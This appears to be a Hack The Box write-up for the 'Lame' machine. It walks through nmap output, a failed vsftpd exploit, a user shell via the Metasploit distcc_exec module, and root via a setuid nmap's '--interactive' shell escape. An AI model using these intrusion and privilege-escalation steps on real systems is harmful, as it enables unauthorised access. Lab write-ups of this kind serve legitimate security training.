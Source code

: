 ```yaml
---
title:     "Hack The Box - Lame"
tags: [linux,easy,setuid,cve]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/1.png)

We are going to pwn Lame from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/1>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: remote management|WAP|printer|general purpose|power-device
Running (JUST GUESSING): Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Linux 2.4.X|2.6.X (92%), Dell iDRAC 6 (92%), Raritan embedded (92%)
OS CPE: cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:2.6.22
Aggressive OS guesses: Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Raritan Dominion PX DPXR20-20L power control unit (92%), LifeSize video conferencing system (Linux 2.4.21) (92%), Linux 2.6.23 (91%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (90%), Arris TG862G/CT cable modem (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There is no HTTP Port open
So lets start from 1st port ```ftp``` 
Lets check whether the version has any exploit available.

Since we know the verion of ``ftp`` which is ``vsftpd 2.3.4`` from nmap scan lets search for any exploits available.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/2.png)

It didn't worked, they might patched it.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/3.png)

Lets check other ports.

## Getting User Shell

Found an exploit on ```Port 3632``` 

> https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec

>use exploit/unix/misc/distcc_exec

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/4.png)

We got shell and found an user ``makis``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/5.png)

## Privilege Escalation

Found some SETUID.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/6.png)

Lets try with ``nmap``

I searched for nmap in GTFOBins 

>https://gtfobins.github.io/gtfobins/nmap/

```
nmap --interactive
nmap> !sh
```
Using the commands

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/7.png)

We got the Root!!

